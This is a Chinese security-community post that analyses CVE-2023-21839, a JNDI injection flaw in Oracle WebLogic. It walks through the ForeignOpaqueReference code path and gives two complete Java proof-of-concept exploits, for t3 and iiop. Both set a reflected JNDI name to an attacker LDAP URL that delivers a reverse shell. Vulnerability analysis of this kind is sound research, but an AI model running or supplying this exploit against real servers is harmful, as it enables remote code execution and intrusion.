 

# CVE-2023-21839 分析 - 先知社区

CVE-2023-21839 分析



参考：

[https://baijiahao.baidu.com/s?id=1758317868693403050](https://baijiahao.baidu.com/s?id=1758317868693403050)

CVE-2023-21839 是一个 weblogic 的 JNDI 注入漏洞。

> 由于 Weblogic t3/iiop协议支持远程绑定对象bind到服务端，并且可以通过lookup查看，当远程对象继承自OpaqueReference时，lookup查看远程对象，服务端会调用远程对象getReferent方法。weblogic.deployment.jms.ForeignOpaqueReference继承自OpaqueReference并且实现了getReferent方法，并且存在retVal = context.lookup(this.remoteJNDIName) 实现，故可以通过 rmi/ldap 远程协议进行远程命令执行。

## 远程绑定对象

weblogic 的 t3 与 iiop 协议都支持使用 JNDI 来远程绑定对象并 lookup 查询，代码如下：

```plain
// 创建远程对象
MyRemoteObject remoteObject = new MyRemoteObject();
// 获取上下文
Hashtable env = new Hashtable();
env.put(Context.INITIAL_CONTEXT_FACTORY, "weblogic.jndi.WLInitialContextFactory");
env.put(Context.PROVIDER_URL, "t3://<server_ip>:<iiop_port>");
Context ctx = new InitialContext(env);
// 绑定对象到 JNDI
ctx.rebind("myRemoteObject", remoteObject);
// 远程查找对象
MyRemoteObject remoteObj = (MyRemoteObject) ctx.lookup("myRemoteObject");
```

如果想通过 iiop 协议绑定则把代码中的 t3 换成 iiop 即可，需要注意的是，由于在绑定的过程中，数据是序列化传输的，所以这里的 MyRemoteObject 需要实现 Serializable 接口。

CVE-2020-2551 就是利用这种方式，客户端向服务端发送 remoteObject 之后，服务端对其进行反序列化，导致造成反序列化漏洞。

## OpaqueReference

weblogic 中的 OpaqueReference 是一个接口：

[![](assets/1701612521-0500918fcc0425a0ec5a01d249e246c9.png)](https://rns-images.oss-cn-hangzhou.aliyuncs.com/image-20230313170301708.png)

当远程对象继承自 OpaqueReference 时，客户端在对该对象进行 JNDI 查找并获取的时候，服务器端实际上是通过调用远程对象的 getReferent() 方法来获取该对象的实际引用。

## 漏洞分析

分析环境用的是 weblogic 10.3.6.0

漏洞的触发点在 ForeignOpaqueReference.getReferent()

[![](assets/1701612521-4ee75e4e82ecee5c1f1b6575a4a26350.png)](https://rns-images.oss-cn-hangzhou.aliyuncs.com/image-20230313171008938.png)

ForeignOpaqueReference 继承自 OpaqueReference，前面说过，当远程对象继承自 OpaqueReference 时，客户端在对该对象进行 JNDI 查找并获取的时候，服务器端实际上是通过调用远程对象的 getReferent() 方法来获取该对象的实际引用。所以，如果远程绑定了 ForeignOpaqueReference 对象，在 lookup 查询该对象时，就会调用 ForeignOpaqueReference.getReferent()，所以这里我们只要控制 var4 与 this.remoteJNDIName 就能造成 jndi 注入。

this.remoteJNDIName 是一个 private 的属性，可以通过反射的方式进行修改。

[![](assets/1701612521-1a64fcf7b08bc63955a20b4c65401f91.png)](https://rns-images.oss-cn-hangzhou.aliyuncs.com/image-20230313171528816.png)

var4 的话，只要 this.jndiEnvironment 有值，就用 this.jndiEnvironment 的值对 InitialContext 进行初始化，this.jndiEnvironment 也可以使用反射的方式进行赋值。

所以 poc 如下：

依赖：

```plain
<dependency>
    <groupId>weblogic</groupId>
    <artifactId>wlfullclient</artifactId>
    <version>0.1</version>
</dependency>
<dependency>
    <groupId>weblogic</groupId>
    <artifactId>spring</artifactId>
    <version>0.1</version>
</dependency>
<dependency>
    <groupId>weblogic</groupId>
    <artifactId>logging</artifactId>
    <version>0.1</version>
</dependency>
```

```plain
import weblogic.deployment.jms.ForeignOpaqueReference;
import weblogic.iiop.IOPProfile;

import javax.naming.Context;
import javax.naming.InitialContext;
import java.lang.reflect.Field;
import java.util.Hashtable;

public class CVE_2023_21839 {
    public static void main(String[] args) throws Exception {
        String JNDI_FACTORY = "weblogic.jndi.WLInitialContextFactory";

        // 创建用来远程绑定对象的InitialContext
        String url = "t3://192.168.135.129:7001"; // 目标机器
        Hashtable env1 = new Hashtable();
        env1.put(Context.INITIAL_CONTEXT_FACTORY, JNDI_FACTORY);
        env1.put(Context.PROVIDER_URL, url); // 目标
        InitialContext c = new InitialContext(env1);

        // ForeignOpaqueReference的jndiEnvironment属性
        Hashtable env2 = new Hashtable();
        env2.put(Context.INITIAL_CONTEXT_FACTORY, "com.sun.jndi.rmi.registry.RegistryContextFactory");

        // ForeignOpaqueReference的jndiEnvironment和remoteJNDIName属性
        ForeignOpaqueReference f = new ForeignOpaqueReference();
        Field jndiEnvironment = ForeignOpaqueReference.class.getDeclaredField("jndiEnvironment");
        jndiEnvironment.setAccessible(true);
        jndiEnvironment.set(f, env2);
        Field remoteJNDIName = ForeignOpaqueReference.class.getDeclaredField("remoteJNDIName");
        remoteJNDIName.setAccessible(true);
        String ldap = "ldap://192.168.135.1:1389/Basic/ReverseShell/192.168.135.1/7777";
        remoteJNDIName.set(f, ldap);

        // 远程绑定ForeignOpaqueReference对象
        c.rebind("sectest", f);

        // lookup查询ForeignOpaqueReference对象
        try {
            c.lookup("sectest");
        } catch (Exception e) {
        }
    }
}
```

[![](assets/1701612521-4f7b3efd755a350df38946b223ad6aa5.png)](https://rns-images.oss-cn-hangzhou.aliyuncs.com/image-20230313174359085.png)

如果通过 iiop 协议绑定及查询的话，需要解决 iiop 的 nat 网络问题，需要手动设置 IOPProfile.IP 和 IOPProfile.PORT，完整 poc 如下：

```plain
import weblogic.deployment.jms.ForeignOpaqueReference;
import weblogic.iiop.IOPProfile;

import javax.naming.Context;
import javax.naming.InitialContext;
import java.lang.reflect.Field;
import java.util.Hashtable;

public class CVE_2023_21839 {
    public static void main(String[] args) throws Exception {
        String JNDI_FACTORY = "weblogic.jndi.WLInitialContextFactory";

        // 创建用来远程绑定对象的InitialContext
        String url = "iiop://192.168.135.129:7001"; // 目标机器
        long TIME_OUT = 15000L; // 超时时间
        Hashtable env1 = new Hashtable();
        env1.put(Context.INITIAL_CONTEXT_FACTORY, JNDI_FACTORY);
        env1.put(Context.PROVIDER_URL, url); // 目标
        env1.put("weblogic.jndi.requestTimeout", TIME_OUT + ""); // 超时时间
        IOPProfile.IP = "192.168.135.129"; // 解决iiop协议的nat网络问题
        IOPProfile.PORT = 7001; // 解决iiop协议的nat网络问题
        InitialContext c = new InitialContext(env1);

        // ForeignOpaqueReference的jndiEnvironment属性
        Hashtable env2 = new Hashtable();
        env2.put(Context.INITIAL_CONTEXT_FACTORY, "com.sun.jndi.rmi.registry.RegistryContextFactory");

        // ForeignOpaqueReference的jndiEnvironment和remoteJNDIName属性
        ForeignOpaqueReference f = new ForeignOpaqueReference();
        Field jndiEnvironment = ForeignOpaqueReference.class.getDeclaredField("jndiEnvironment");
        jndiEnvironment.setAccessible(true);
        jndiEnvironment.set(f, env2);
        Field remoteJNDIName = ForeignOpaqueReference.class.getDeclaredField("remoteJNDIName");
        remoteJNDIName.setAccessible(true);
        String ldap = "ldap://192.168.135.1:1389/Basic/ReverseShell/192.168.135.1/7777";
        remoteJNDIName.set(f, ldap);

        // 远程绑定ForeignOpaqueReference对象
        c.rebind("sectest", f);

        // lookup查询ForeignOpaqueReference对象
        try {
            c.lookup("sectest");
        } catch (Exception e) {
        }
    }
}
```

## 总结

CVE-2023-21839 是一个 weblogic 的 JNDI 注入漏洞。它与 CVE-2020-2551 有些相似，但又不同：

相同点：都利用了 weblogic 的远程 jndi 绑定对象机制，最终都造成了 jndi 注入

不同点：CVE-2020-2551 使用的是 iiop 协议，利用的是 RMI-IIOP 传输数据过程中的序列化与反序列化触发漏洞类与漏洞函数；而 CVE-2023-21839 是通过远程绑定恶意对象后再对其进行查询来调用漏洞函数，使用 t3 或者 iiop 协议均可。
